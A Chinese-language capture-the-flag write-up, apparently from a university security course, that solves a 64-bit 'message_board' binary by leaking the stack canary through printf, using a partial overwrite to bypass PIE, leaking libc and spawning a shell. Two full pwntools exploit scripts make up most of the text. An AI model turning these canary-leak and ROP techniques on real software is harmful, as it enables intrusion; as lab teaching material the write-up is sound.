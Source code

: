 ### messageboard

### 考点

- Canary绕过原理
- PIE绕过原理
- 对gdb调试器的使用

### 解题过程

- 使用`checksec`进行检查：![checksec](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\messageboard\images\checksec.png)

![file](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\messageboard\images\file.png)

​		可知程序为64位，有DEP、ASLR、Canary、PIE等保护。`Canary`是一种栈溢出保护手段，会在栈中压入随机值，如果进行栈溢出攻击，会导致随机值改变，导致验证失败，从而程序不会执行。`PIE(position-independent executable, 地址无关可执行文件)`技术就是一个针对代码段.text, 数据段.*data，.bss等固定地址的一个防护技术。同ASLR一样，应用了PIE的程序会在每次加载时都变换加载基址，从而使位于程序本身的gadget也失效。

- 使用`ldd`命令查看程序的依赖库libc和ld：

![ldd](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\messageboard\images\ldd.png)

​		使用`patchelf`进行修改：

```shell
patchelf --replace-needed libc.so.6 ./libc-2.31.so ./message_board
```

```shell
patchelf --set-interpreter ~/Documents/tools/glibc-all-in-one/libs/2.31-0ubuntu9.12_amd64/ld-2.31.so ./message_board
```

![ldd-1](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\messageboard\images\ldd-1.png)

- 构造python脚本，进行调试，查看程序vmmap以及stack的情况：

`vmmap`：后3位均为0，前几位每次调试都会发生变化

![vmmap](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\messageboard\images\vmmap.png)

![vmmap-1](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\messageboard\images\vmmap-1.png)

`stack`：其中有随机值`"0x7e9818f231b8c000"`和`"0xf0297d8f04ed1000"`

![stack](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\messageboard\images\stack.png)

![stack-1](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\messageboard\images\stack-1.png)

- 使用ida工具打开程序，逆向分析，在`sub_11C9`函数位置有`getchar`函数，只有输入回车符时才会结束输入，存在栈溢出漏洞：

![sub_11C9](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\messageboard\images\sub_11C9.png)

- 由于`sub_11FF`函数中的`printf`函数`%s`参数仅在字符串结尾为`\x00`字符时才会停止输出，因此可以尝试在此处泄漏`canary`和`libc`的地址。

![sub_11FF](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\messageboard\images\sub_11FF.png)

- 构造脚本，主要思路（五次栈溢出）：首先通过printf函数的输出特性泄漏`Canary`值，然后在第二次调用`sub_11C9`函数时，通过覆盖部分地址使程序本应执行到`0x1310`转而执行`0x130b`（通过覆盖最后一字节实现），如下图所示：

![partial write](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\messageboard\images\partial write.png)

​		然后程序重新进入漏洞函数，通过栈溢出覆盖截断字符`\x00`使`printf`函数输出程序基址。如下图所示，通过计算偏移可以得到程序基址：

![程序基址](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\messageboard\images\程序基址.png)

​		然后继续到第二个`sub_11c9`函数，根据`got`表获取到libc基址，最后根据libc基址以及`one_gadget`工具可以得到结果shell：

`python脚本如下`:

```python
from pwn import *

p = process('./message_board')

# 获取canary
payload = flat(b'a'*(0x20+8+1))
gdb.attach(p, 'b *$rebase(0x11FD)')
p.sendlineafter(b"What 's your name?\n", payload)
p.recvuntil(payload)
puts_canary_libc = p.recv(7)

canary = u64(puts_canary_libc.rjust(8, b'\x00'))
success(hex(canary))


# Parital Write， 重新跳转到漏洞函数
main_addr_offset = b'\x0B'
p.recvuntil(b'What do you want to say?\n')

payload = flat(b'b'*(0x20+8), p64(canary), p64(0), main_addr_offset)
p.sendline(payload)

# 获取程序基址
payload = flat(b'c'*(0x20+8+8+8))
p.sendlineafter(b"What 's your name?\n", payload)
p.recvuntil(payload)
mov_eax_addr = u64(p.recv(6).ljust(8, b'\x00'))
base_addr = mov_eax_addr - 0x1310

success(hex(base_addr))

# 获取libc基址
pop_rdi = base_addr + 0x1383
retn = base_addr + 0x12A8
elf = ELF('./message_board')
puts_plt = elf.plt['puts'] + base_addr
puts_got = elf.got['puts'] + base_addr

libc = ELF('./libc-2.31.so')
libc_puts_offset = libc.symbols['puts']  # 0x84420
libc_system_offset = libc.symbols['system']  # 0x52290
sub_11ff_addr = base_addr + 0x130B
payload = flat(b'd'*(0x20+8), p64(canary), p64(0), p64(retn), p64(pop_rdi), p64(puts_got), p64(puts_plt), p64(sub_11ff_addr))
p.sendlineafter(b'What do you want to say?\n', payload)
p.recvuntil(b"Thanks!\n")
puts_libc = p.recv(6)
puts_libc = u64(puts_libc.ljust(8, b'\x00'))
libc_base = puts_libc - libc_puts_offset
success(hex(libc_base))

# # one_gadget
# one_gadget = libc_base + 0xe3b01
# payload = flat(b'e'*(0x20+8), p64(canary), p64(0x0), p64(one_gadget))
# gdb.attach(p, 'b *$rebase(0x11FD)')
# p.sendlineafter(b"What 's your name?\n", payload)

# system函数
bin_sh_addr = libc_base + 0x1b45bd
system_addr = libc_base + libc_system_offset
payload = flat(b'f'*(0x20+8), p64(canary), p64(0), p64(retn), p64(pop_rdi), p64(bin_sh_addr), p64(system_addr))
p.sendlineafter(b"What 's your name?\n", payload)
p.sendlineafter(b'What do you want to say?\n', b'FFF')
# p.recvuntil(b"Thanks!\n")

p.interactive()
```

注：需要注意在进行代码的注入时，需要考虑栈帧对齐的问题，eg: `payload = flat(b'f'*(0x20+8), p64(canary), p64(0), p64(pop_rdi), p64(bin_sh_addr)`中`p64(0)`为赋给`rbp`寄存器的值，`p64(retn)`为将`pop rdi`进行栈对齐所需添加的占位值。

- 构造脚本，主要思路（四次栈溢出）：前两次栈溢出与前一种情况相同；

​		然后程序会再次执行漏洞函数，通过栈溢出覆盖截断字符`\x00`使得`printf`函数输出libc的基址。如下图所示，通过计算偏移可以得到libc的基址

![libc_base](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\messageboard\images\libc_base.png)

​		然后继续到第二个`sub_11c9`函数，根据libc基址以及`one_gadget`工具可以得到结果shell：

`python脚本如下`:

```python
from pwn import *

p = process('./message_board')

# 获取canary
payload = flat(b'a'*(0x20+8+1))
gdb.attach(p, 'b *$rebase(0x11FD)')
p.sendlineafter(b"What 's your name?\n", payload)
p.recvuntil(payload)
puts_canary_libc = p.recv(7)

canary = u64(puts_canary_libc.rjust(8, b'\x00'))
success(hex(canary))


# Parital Write， 重新跳转到漏洞函数
main_addr_offset = b'\x0B'
p.recvuntil(b'What do you want to say?\n')

payload = flat(b'b'*(0x20+8), p64(canary), p64(0), main_addr_offset)
p.sendline(payload)

# 获取libc基址
libc = ELF('./libc-2.31.so')
payload = flat(b'c'*(0x20+8+8+8+16))
p.sendlineafter(b"What 's your name?\n", payload)
p.recvuntil(payload)

mov_edi_addr = p.recv(6)
print(mov_edi_addr)
mov_edi_addr = u64(mov_edi_addr.ljust(8, b'\x00'))
print(hex(mov_edi_addr))
libc_base = mov_edi_addr - 0x24083

success(hex(libc_base))

one_gadget = libc_base + 0xe3b01

payload = flat(b'e'*(0x20+8), p64(canary), p64(0x0), p64(one_gadget))
p.sendlineafter(b'What do you want to say?\n', payload)



p.interactive()
```



### 结果

![result](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\messageboard\images\result.png)